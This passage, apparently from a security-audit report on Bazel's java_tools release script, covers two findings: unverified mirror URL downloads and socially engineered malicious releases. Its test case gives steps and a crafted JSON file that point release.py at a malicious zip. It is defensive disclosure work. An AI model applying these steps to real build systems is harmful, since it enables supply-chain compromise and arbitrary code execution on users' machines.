       artifacts = json.loads(opts.artifacts)["artifacts"]

      relnotes = "To use this java_tools release, add to your WORKSPACE file the definitions: \n```py"
      for platform in artifacts:
        relnotes += generate_release_info(platform, artifacts[platform])
        download_file(artifacts[platform]["mirror_url"])
    ```
    - The `main` function parses the `--artifacts` argument as JSON and iterates through the `artifacts` dictionary, extracting `mirror_url` and passing it to `download_file` without any safety checks.
    - This direct and unverified download process allows injection of harmful URLs and compromises downloaded artifacts.
- Security Test Case:
    1. **Setup Malicious Server:** Configure an HTTP server to host a malicious replacement `java_tools` zip file (e.g., `malicious_java_tools.zip`) with a harmless payload (e.g., a Java class that creates `/tmp/pwned_test`). Obtain the URL (e.g., `http://localhost:8000/malicious_java_tools.zip`).
    2. **Craft Malicious Artifacts JSON:** Create `malicious_artifacts.json` and replace the legitimate `mirror_url` for one platform (e.g., `java_tools_linux`) with the malicious URL (`http://localhost:8000/malicious_java_tools.zip`). Use a dummy `sha` value.
    ```json
    {
      "artifacts": {
        "java_tools_linux": {
          "mirror_url": "http://localhost:8000/malicious_java_tools.zip",
          "sha": "dummy_sha",
          "github_url": "https://dummy.github.com/url"
        },
        "java_tools_windows": {
          "mirror_url": "https://mirror.bazel.build/bazel_java_tools/releases/java/vXX.XX/java_tools_windows-vXX.XX.zip",
          "sha": "valid_sha_windows",
          "github_url": "https://github.com/bazelbuild/java_tools/releases/download/java_vXX.XX/java_tools_windows-vXX.XX.zip"
        },
        // ... other platforms ...
      }
    }
    ```
    3. **Execute `release.py` with Malicious JSON:** Run `python /code/scripts/release.py --artifacts "$(cat malicious_artifacts.json)"`.
    4. **Verify Malicious Download:** Check the current directory for `malicious_java_tools.zip`, downloaded from the malicious server.
    5. **Verify Payload Execution (If Applicable):** If the malicious zip contained a payload, attempt to trigger it and verify execution (e.g., check for `/tmp/pwned_test`).
    6. **Cleanup:** Delete downloaded files and stop the malicious HTTP server.

- Vulnerability Name: Social Engineering for Malicious `java_tools` Release
- Description:
    - An attacker creates a malicious `java_tools` release by modifying official artifacts or creating new, compromised tools.
    - The attacker hosts the malicious release on a public server.
    - The attacker socially engineers a Bazel user into using an `http_archive` definition in their `WORKSPACE` file, pointing to the malicious release.
    - The Bazel user adds this definition, unaware of the malicious URL.
    - When the user builds a Java project, Bazel downloads and uses the compromised `java_tools`.
    - Malicious tools are executed during the Java build process.
- Impact:
    - Arbitrary code execution on the Bazel user's machine or build environment.
    - Compromise of built software artifacts and potential supply chain attacks.
    - Data exfiltration and denial of service.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
    - None explicitly implemented in `java_tools` to prevent social engineering.
    - Documentation implicitly relies on user awareness to use trusted releases from the official repository (`https://github.com/bazelbuild/java_tools/releases`).